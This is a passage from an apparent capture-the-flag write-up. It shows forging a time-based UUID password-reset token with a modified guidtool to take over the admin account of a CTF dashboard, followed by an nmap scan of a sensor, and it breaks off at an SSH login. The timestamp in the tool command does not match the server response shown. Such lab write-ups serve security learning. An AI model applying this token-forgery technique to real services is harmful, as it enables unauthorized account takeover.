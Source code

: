 Grab the value of the `timestamp` field in the response:

```powershell
HTTP/1.1 200 OK
Server: nginx
Date: Sat, 17 May 2025 04:17:29 GMT
Content-Type: application/json
Content-Length: 62
Connection: keep-alive

{"detail":"ok","timestamp":"2025-05-17T04:17:29.166084+00:00"}
```

Then, you can use your brand new version of `guidtool` with the timestamp and the initial UUID given in the initial message:

```powershell
$ guidtool -t '2025-05-17 14:32:45.201323' 14e355e1-f216-11ef-b19a-d0c637f44704
cc429cb0-332b-11f0-b19a-d0c637f44704
```

The new version of the tool will generate only one splendid UUID that you can use to authenticate as `admin`. The URL should look like this:

* <https://dashboard.fms.ctf/account/change-password?token=cc429cb0-332b-11f0-b19a-d0c637f44704>

You can set up the password of the `admin` account and authenticate as the administrator.

Let's grab a flag and read the next hint:

![Second hint](./res/nsec25/second-hint.png)

### RCE on the sensor

So, there is a diagnostic console on the sensor. We have the IP(v6) address of the sensors and there is only one sensor enabled. So let's scan this one:

```powershell
Nmap scan report for 9000:d37e:c40b:d1b5:218:55ff:fe94:ec1a
Host is up, received echo-reply ttl 59 (0.027s latency).
Scanned at 2025-05-17 17:12:54 CEST for 14s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 59 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The documentation of the FMS web site gave us the credentials (`app:sensor`), so we can just SSH on it:
